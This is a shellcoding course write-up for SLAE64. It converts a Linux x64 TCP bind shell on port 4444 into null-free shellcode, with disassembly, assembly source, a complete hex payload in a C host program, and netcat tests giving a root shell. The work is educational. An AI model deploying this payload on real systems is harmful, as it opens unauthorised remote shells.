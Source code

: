 ```yaml
---
title: SLAE64 Assignment 1 - Remove Nulls TCP Bindshell
date: 2020-4-28
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE64.png
tags:
  - Bind
  - Shell
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)

## Overview
The second part of the first assignment of SLAE64 was to remove the nulls from the bindshell provided by Pentester Academy.

## Compiling & Testing Original - With GCC in C Host Program
```bash
root@zed# ./shellcode
Shellcode Length:  2
```
+ We can see here that these nulls truncate our shellcode when executed in a host program.
+ This is because `\x00` will terminate a string in the host program.
+ Most of the time shellcode is injected into the host program by overflowing the string of a buffer, therefor truncating the shellcode.

## Compiling & Testing Original - With NASM & LD
The shellcode works great if it is compiled and ran as its own program. This means the shellcode logic is good. 

#### Terminal 1
```bash
root# nasm -f elf64 bindshell.asm -o bindshell.o
root# rm shellcode
root# ld bindshell.o -o bindshell
root# ./bindshell

```

#### Terminal 2

```bash
root# nc 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root),46(plugdev)
```

## Removing Nulls
To make this shellcode injectable into most host programs, we will need to remove the `0x00` aka `Nulls`.

To determine which assembly instructions are producing the nulls, we will use `objdump` on the object file.

```bash
root# objdump -D bindshell.o -M intel
   0:   b8 29 00 00 00          mov    eax,0x29
   5:   bf 02 00 00 00          mov    edi,0x2
   a:   be 01 00 00 00          mov    esi,0x1
   f:   ba 00 00 00 00          mov    edx,0x0
  14:   0f 05                   syscall
  16:   48 89 c7                mov    rdi,rax
  19:   48 31 c0                xor    rax,rax
  1c:   50                      push   rax
  1d:   89 44 24 fc             mov    DWORD PTR [rsp-0x4],eax
  21:   66 c7 44 24 fa 11 5c    mov    WORD PTR [rsp-0x6],0x5c11
  28:   66 c7 44 24 f8 02 00    mov    WORD PTR [rsp-0x8],0x2
  2f:   48 83 ec 08             sub    rsp,0x8
  33:   b8 31 00 00 00          mov    eax,0x31
  38:   48 89 e6                mov    rsi,rsp
  3b:   ba 10 00 00 00          mov    edx,0x10
  40:   0f 05                   syscall
  42:   b8 32 00 00 00          mov    eax,0x32
  47:   be 02 00 00 00          mov    esi,0x2
  4c:   0f 05                   syscall
  4e:   b8 2b 00 00 00          mov    eax,0x2b
  53:   48 83 ec 10             sub    rsp,0x10
  57:   48 89 e6                mov    rsi,rsp
  5a:   c6 44 24 ff 10          mov    BYTE PTR [rsp-0x1],0x10
  5f:   48 83 ec 01             sub    rsp,0x1
  63:   48 89 e2                mov    rdx,rsp
  66:   0f 05                   syscall
  68:   49 89 c1                mov    r9,rax
  6b:   b8 03 00 00 00          mov    eax,0x3
  70:   0f 05                   syscall
  72:   4c 89 cf                mov    rdi,r9
  75:   b8 21 00 00 00          mov    eax,0x21
  7a:   be 00 00 00 00          mov    esi,0x0
  7f:   0f 05                   syscall
  81:   b8 21 00 00 00          mov    eax,0x21
  86:   be 01 00 00 00          mov    esi,0x1
  8b:   0f 05                   syscall
  8d:   b8 21 00 00 00          mov    eax,0x21
  92:   be 02 00 00 00          mov    esi,0x2
  97:   0f 05                   syscall
  99:   48 31 c0                xor    rax,rax
  9c:   50                      push   rax
  9d:   48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f2f6e69622f
  a4:   2f 73 68
  a7:   53                      push   rbx
  a8:   48 89 e7                mov    rdi,rsp
  ab:   50                      push   rax
  ac:   48 89 e2                mov    rdx,rsp
  af:   57                      push   rdi
  b0:   48 89 e6                mov    rsi,rsp
  b3:   48 83 c0 3b             add    rax,0x3b
  b7:   0f 05                   syscall
```

+ After investigating the shellcode, we can see that the Nulls exist due to the mov instructions used.

## Modified Null-Free Shellcode
To remove the 0x00's from the shellcode, we will need to substitute the mov instructions.

```nasm
global _start
_start:
; sock = socket(AF_INET, SOCK_STREAM, 0)
xor rdi, rdi ; rdi=0x0
mul rdi      ; rax&rdx=0x0
add rax, 41  ; socket syscall number 41
add rdi, 2   ; AF_INET=0x2
push rdx
pop rsi
inc rsi      ; rsi=0x1=SOCK_STREAM
syscall
mov rdi, rax ; rdi=socket-fd
; server.sin_family = AF_INET
; server.sinport = htons(PORT)
; server.sinaddr.saddr = INADDRANY
; bzero(&server.sinzero, 8)
dec rsi
mul rsi
add al, 0x31     ; rax = 0x31 = socket syscall
push rdx         ; 8 bytes of zeros for second half of struct
push dx          ; 4 bytes of zeros for IPADDRANY
push dx          ; 4 bytes of zeros for IPADDRANY
push word 0x5c11 ; push 2 bytes for TCP Port 4444
inc rdx
inc rdx          ; rdx = 0x2 ; dx = 0x0002
push dx          ; 0x2 = AFINET
add dl, 0xe      ; rdi = 0x10 = sizeof(ipSocketAddr)
mov rsi, rsp     ; rsi = &ipSocketAddr
syscall
; listen(sock, MAXCLIENTS)
mul rsi      ; rax&rdx=0x0
add rax, 50
inc rsi
inc rsi
syscall
; new = accept(sock, (struct sockaddr client, &sockaddrlen)
mul rdx
add rax, 43
sub rsp, 16
mov rsi, rsp
mov byte [rsp-1], 16
sub rsp, 1
mov rdx, rsp
syscall
; store the client socket description
mov r9, rax
; close parent
xor rax, rax
add rax, 3
syscall
```



## Assemble the new shellcode

```bash
root# nasm -f elf64 mod-bindshell.asm -o mod-bindshell.o
root# ld mod-bindshell.o -o mod-bindshell
root# ./mod-bindshell
root# for i in $(objdump -D mod-bindshell.o | grep "^ " | cut -f2); do echo -n '\x'$i; done
```

## Add the Modified Shellcode to the C Host Program

```c
#include<stdio.h>
#include<string.h>
unsigned char shellcode[] = \
"\x48\x31\xff\x48\xf7\xe7\x48\x83\xc0\x29\x48\x83"
"\xc7\x02\x52\x5e\x48\xff\xc6\x0f\x05\x48\x89\xc7"
"\x48\xff\xce\x48\xf7\xe6\x04\x31\x52\x66\x52\x66"
"\x52\x66\x68\x11\x5c\x48\xff\xc2\x48\xff\xc2\x66"
"\x52\x80\xc2\x0e\x48\x89\xe6\x0f\x05\x48\xf7\xe6"
"\x48\x83\xc0\x32\x48\xff\xc6\x48\xff\xc6\x0f\x05"
"\x48\xf7\xe2\x48\x83\xc0\x2b\x48\x83\xec\x10\x48"
"\x89\xe6\xc6\x44\x24\xff\x10\x48\x83\xec\x01\x48"
"\x89\xe2\x0f\x05\x49\x89\xc1\x48\x31\xc0\x48\x83"
"\xc0\x03\x0f\x05\x48\x31\xf6\x48\xf7\xe6\x4c\x89"
"\xcf\x48\x83\xc0\x21\x50\x0f\x05\x58\x50\x48\xff"
"\xc6\x0f\x05\x58\x50\x48\xff\xc6\x0f\x05\x48\x31"
"\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
"\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6"
"\x48\x83\xc0\x3b\x0f\x05";
int main()
{
 printf("Shellcode Length:  %d\n", strlen(shellcode));
 int (*ret)() = (int(*)())shellcode;
 ret();
}
```


#### Terminal 1
```bash
root# gcc -m64 -z execstack -fno-stack-protector shellcode.c -o shellcode
root# ./shellcode
Shellcode Length:  174

```

#### Terminal 2

```bash
root# nc 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root)
```

+ Awesome! Our modified bindshell works from the host program and contains no nulls!!


## SLAE64 Blog Proof
```bash
This blog post has been created for completing the requirements of the x86_64 Assembly Language and Shellcoding on Linux (SLAE64):
    https://www.pentesteracademy.com/course?id=7
SLAE/Student ID: PA-10913
```


